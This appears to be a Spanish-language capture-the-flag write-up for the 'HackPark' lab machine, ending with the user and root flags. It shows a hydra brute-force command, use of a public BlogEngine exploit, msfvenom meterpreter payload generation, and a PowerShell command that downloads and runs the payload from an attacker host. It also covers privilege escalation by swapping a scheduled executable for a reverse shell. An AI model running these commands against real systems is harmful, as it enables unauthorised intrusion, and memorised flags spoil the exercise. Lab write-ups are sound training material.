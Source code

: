 # HackPark - rmartinez 17/01/2022

IP: 10.10.146.142

## 1. Whats the name of the clown displayed on the homepage?

```
pennywise
```

El siguiente paso será bruteforcear con hydra el formulario que hay en /Account/login.aspx. Lo que haremos será abrir Burp para ver la payload que se envía en el formulario (http-payload.txt) y se la pasaremos a hydra para crackearla.

En hydra usando el módulo http-post-form la payload tiene la siguiente estructura:

```
"URL:FORM PAYLOAD:CONTENIDO RESPONSE QUE QUEREMOS EVITAR"
```


Bruterforceamos con hydra el login ejecutando el siguiente payload:

```
hydra -f -l admin -P /opt/wordlists/rockyou.txt 10.10.146.142 http-post-form "/Account/login.aspx?ReturnURL=%2fadmin%2f:__VIEWSTATE=fL2tVePaQj2Bd3yhP1Qk9latiwIWDWnmeUFI8PtMVR5gr%2F1V4bvoOons45qp6htzIzTkaeWDOTjzcGQESaMDqQ6sGcW5ALgtcoSI2hSGNhIA1%2FiNamYc4Trh06FVDrcB8mJluyZ7zLrLwhYkTh8YXwp0kVl8sx%2Fz09DWvfTMiijwtsJO&__EVENTVALIDATION=0fEbnWaJiLKupaIpmuCSVPWoeRsXc2Cug9TGKwz7aK0xT%2FHQzApBSH1p7%2Faq4%2FYnVt408khIpV0Z0T%2BKSpepvkGqEh2laoN2m5ElUU9qXkUUvbOEKnsElaIbLgjglRMUJKb5d9w8QmbVpx1Gzas4QfrR%2FABP6AXUzBMN9TOOUdDCUjh2&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Iniciar+sesi%C3%B3n:Login failed"

```
Nos da el siguiente output positivo:
```
[80][http-post-form] host: 10.10.146.142   login: admin   password: 1qaz2wsx
```

Lo siguiente que haremos para obtener acceso a la máquina será comprobar qué estamos comprometiendo. En este caso, se trata de BlogEngine 3.3.6.0, que comprobaremos en la página de about.

Buscaremos un exploit y veremos que esta máquina es vulnerable a la **CVE-2019-6714**. Usaremos el exploit público en:
```
https://www.exploit-db.com/exploits/46353
```

Seteamos IP y puerto y abrimos un listener de netcat en el 4444. Nos da una revshell roñosa de cmd. 

Lo que haremos a continuación es subirnos una shell de meterpreter con powershell:

```
mkdir webserver
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.9.3.241 LPORT=5555 -f exe -o shell.exe
python -m http.server
powershell -c "Invoke-WebRequest -Uri 'http://10.9.3.241:8000/shellaca2.exe' -OutFile 'C:\Windows\Temp\shell2.exe'"
powershell -c "Start-Process 'C:\Windows\Temp\shell.exe'"
```

En metasploit:

```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.9.3.241
set LPORT 5555
run
```




Ya tenemos la shell de meterpreter. Con meterpreter o no, bajamos winpeas y lo ejecutamos. Listamos los servicios y vemos uno que nos llama la atención 
```
WindowsScheduler
```
Vamos a la carpeta donde está alojado y vemos un log sospechoso en Events/20198415519.INI_LOG.txt

Lo abrimos y vemos que cada minuto se está ejecutando un ejecutable llamado Message.exe con el usuario Administrator.

Nos vamos a esa ubicación y creamos una reverse shell nueva con msfvenom igual que antes.

Nos bajamos la revshell, la ejecutamos, y gg pwn3d.

User flag: 759bd8af507517bcfaede78a21a73e39
<br>
Root flag: 7e13d97f05f7ceb9881a3eb3d78d3e72

